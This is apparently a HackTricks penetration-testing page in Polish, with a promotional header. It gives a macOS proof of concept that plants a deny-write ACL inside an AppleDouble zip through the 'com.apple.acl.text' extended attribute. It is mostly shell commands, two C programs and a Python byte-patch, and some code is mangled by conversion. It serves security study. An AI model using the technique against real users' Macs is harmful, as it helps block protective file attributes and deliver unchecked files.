 # macOS xattr-acls extra stuff

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia dla HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do repozytoriów** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>

\`\`\`bash rm -rf /tmp/test\* echo test >/tmp/test chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test ./get\_acls test ACL for test: !#acl 1 group:ABCDEFAB-CDEF-ABCD-EFAB-CDEF0000000C:everyone:12:deny:write,writeattr,writeextattr,writesecurity,chown

ACL in hex: \x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a

````
<details>

<summary>Kod funkcji get_acls</summary>
```c
// gcc -o get_acls get_acls
#include <stdio.h>
#include <stdlib.h>
#include <sys/acl.h>

int main(int argc, char *argv[]) {
if (argc != 2) {
fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
return 1;
}

const char *filepath = argv[1];
acl_t acl = acl_get_file(filepath, ACL_TYPE_EXTENDED);
if (acl == NULL) {
perror("acl_get_file");
return 1;
}

char *acl_text = acl_to_text(acl, NULL);
if (acl_text == NULL) {
perror("acl_to_text");
acl_free(acl);
return 1;
}

printf("ACL for %s:\n%s\n", filepath, acl_text);

// Convert acl_text to hexadecimal and print it
printf("ACL in hex: ");
for (char *c = acl_text; *c != '\0'; c++) {
printf("\\x%02x", (unsigned char)*c);
}
printf("\n");

acl_free(acl);
acl_free(acl_text);
return 0;
}
````

\`\`\`bash # Lets add the xattr com.apple.xxx.xxxx with the acls mkdir start mkdir start/protected ./set\_xattr start/protected echo something > start/protected/something \`\`\`

<details>

<summary>Kod funkcji set_xattr</summary>

\`\`\`c // gcc -o set\_xattr set\_xattr.c #include #include #include #include #include

void print\_xattrs(const char \*filepath) { ssize\_t buflen = listxattr(filepath, NULL, 0, XATTR\_NOFOLLOW); if (buflen < 0) { perror("listxattr"); return; }

char \*buf = malloc(buflen); if (buf == NULL) { perror("malloc"); return; }

buflen = listxattr(filepath, buf, buflen, XATTR\_NOFOLLOW); if (buflen < 0) { perror("listxattr"); free(buf); return; }

printf("All current extended attributes for %s:\n", filepath); for (char \*name = buf; name < buf + buflen; name += strlen(name) + 1) { printf("%s: ", name); ssize\_t valuelen = getxattr(filepath, name, NULL, 0, 0, XATTR\_NOFOLLOW); if (valuelen < 0) { perror("getxattr"); continue; }

char \*value = malloc(valuelen + 1); if (value == NULL) { perror("malloc"); continue; }

valuelen = getxattr(filepath, name, value, valuelen, 0, XATTR\_NOFOLLOW); if (valuelen < 0) { perror("getxattr"); free(value); continue; }

value\[valuelen] = '\0'; // Null-terminate the value printf("%s\n", value); free(value); }

free(buf); }

int main(int argc, char \*argv\[]) { if (argc != 2) { fprintf(stderr, "Usage: %s \n", argv\[0]); return 1; }

const char \*hex = "\x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a"; const char \*filepath = argv\[1];

int result = setxattr(filepath, "com.apple.xxx.xxxx", hex, strlen(hex), 0, 0); if (result == 0) { printf("Extended attribute set successfully.\n\n"); } else { perror("setxattr"); return 1; }

print\_xattrs(filepath);

return 0; }

````
</details>

<div data-gb-custom-block data-tag="code" data-overflow='wrap'>

```bash
# Create appledoublefile with the xattr entitlement
ditto -c -k start protected.zip
rm -rf start
# extract the files
unzip protected.zip
# Replace the name of the xattr here (if you put it before ditto would have destroyed it)
python3 -c "with open('._protected', 'rb+') as f: content = f.read().replace(b'com.apple.xxx.xxxx', b'com.apple.acl.text'); f.seek(0); f.write(content); f.truncate()"
# zip everything back together
rm -rf protected.zip
zip -r protected.zip protected ._protected
rm -rf protected
rm ._*
````

\`\`\`bash # Check if it worked ditto -x -k --rsrc protected.zip . xattr -l protected \`\`\`



</details>

